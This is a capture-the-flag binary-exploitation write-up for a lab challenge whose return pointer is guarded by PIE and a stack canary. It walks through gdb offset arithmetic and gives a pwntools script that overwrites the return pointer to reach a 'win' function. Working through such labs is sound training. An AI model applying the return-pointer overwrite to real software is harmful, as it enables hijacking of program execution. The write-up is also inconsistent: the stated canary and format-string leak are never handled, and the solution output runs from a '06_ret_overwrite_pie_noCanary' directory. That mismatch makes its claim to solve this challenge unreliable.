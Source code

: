 # 07_ret_overwrite_pieWcanary_leak Writeup

## Steps:
1. Run chall. Notice in this one PIE is enabled and has a canary. This means that the memory locations are not fixed and there is a canary we need to preserve.
```
$ ./chall 

Your goal is to modify the return pointer @ 0x7ffd97fe8ec8, to a function called 'win' in the binary.

This binary has PIE enabled and a canary, you must bypass both via a leak. You can leak both in one shot.
Especially if you have a good understanding of format strings.

0x7ffd97fe8ea0: 0x0000000000000000 0x0000000000000000 
0x7ffd97fe8eb0: 0x0000000000000000 *****REDACTED*****
0x7ffd97fe8ec0: 0x0000000000000001 0x00007fc2af6d1ca8 

Enter your name: AAAA
Hello, AAAA. Good luck!


Enter input: A

0x7ffd97fe8ea0: 0x0000000041410a41 0x0000000000000000 
0x7ffd97fe8eb0: 0x0000000000000000 *****REDACTED*****
0x7ffd97fe8ec0: 0x0000000000000001 0x00007fc2af6d1ca8 

You failed to overwrite the return pointer and canary.
```
2. Using gdb gef, notice that every time we run it the hint is at the same location. This means we can use gdb to get the relative distance between the `hint` and `win`
- `info function win` gives us `0x00005555555555d9  win`
- `hint` is at `0x555555558010`

    So `0x8010 - 0x55d9 = 0x2a37`

3. Recieve the `hint` and subtract `0x2a37` to calculate the address of `win`
4. Create the payload, similar to previous problems
- 40 bytes of garbage to reach return pointer
- address of `win`
```
from pwn import *

target = process("./chall")

target.recvuntil("hint @ 0x")
hint = target.recvuntil("\n")
print(hint)

win = int(hint, 16) - 0x2A37


payload = b"A" * 8 * 5
payload += p64(win)

target.sendline(payload)

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py 
[+] Starting local process './chall': pid 73075
/home/kali/Binex-Writeups/binex_tuts/06_ret_overwrite_pie_noCanary/exploit.py:5: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.recvuntil("hint @ 0x")
/home/kali/Binex-Writeups/binex_tuts/06_ret_overwrite_pie_noCanary/exploit.py:6: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  hint = target.recvuntil("\n")
b'5582bf85b010\n'
[+] Receiving all data: Done (524B)
[*] Process './chall' stopped with exit code 0 (pid 73075)

0x7ffd8bc108a0: 0x0000000000000000 0x0000000000000000 
0x7ffd8bc108b0: 0xffffffffffffffff 0xffffffffffffffff 
0x7ffd8bc108c0: 0x0000000000000001 0x00007f1ddbe01ca8 

Enter input: 
0x7ffd8bc108a0: 0x4141414141414141 0x4141414141414141 
0x7ffd8bc108b0: 0x4141414141414141 0x4141414141414141 
0x7ffd8bc108c0: 0x4141414141414141 0x00005582bf8585d9 

Congrats, you successuly changed execution flow!
```
